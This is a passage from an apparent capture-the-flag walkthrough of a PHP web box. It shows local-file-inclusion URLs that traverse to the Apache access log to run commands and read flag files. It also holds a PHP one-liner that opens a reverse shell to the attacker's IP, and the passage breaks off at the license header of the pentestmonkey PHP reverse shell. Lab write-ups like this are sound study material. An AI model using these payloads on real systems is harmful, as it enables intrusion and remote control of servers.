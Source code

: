 ```bash
http://$IP/?view=php://filter/resource=./dog/../../../../../../../var/log/apache2/access.log&ext=&cmd=cat%20flag.php
```

**It is in the current working directory (/var/www/html/)**

The result:

{% asset_img flag1.1.png %}

### Flag 2

The second flag is pretty much as easy as the first one, it is just one directory up.

**One up from the current directory (/var/www/)**

```bash
http://$IP/?view=php://filter/resource=./dog/../../../../../../../var/log/apache2/access.log&ext=&cmd=ls%20-l%20..
```

{% asset_img flag2.png %}

```bash
http://$IP/?view=php://filter/resource=./dog/../../../../../../../var/log/apache2/access.log&ext=&cmd=cat ../flag2_QMW7JvaY2LvK.txt
```

{% asset_img flag2.2.png %}

For the 3rd and 4th flag we will need a proper reverse shell with root access. I couldn’t get a shell by running a reverse shell from the [PentestMonkey-ReverseShell-CheatSheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet), like this:

```bash
http://$IP/?view=php://filter/resource=./dog/../../../../../../../var/log/apache2/access.log&ext=&cmd=php -r '$sock=fsockopen("{TUN0}"",9999);exec("/bin/sh -i <&3 >&3 2>&3");'
```

Maybe it was just me, but I decided to just download a php reverse shell from my computer with curl.

For that I used [this](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) reverse shell and modified it with my ip and the 9999 port.

```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
```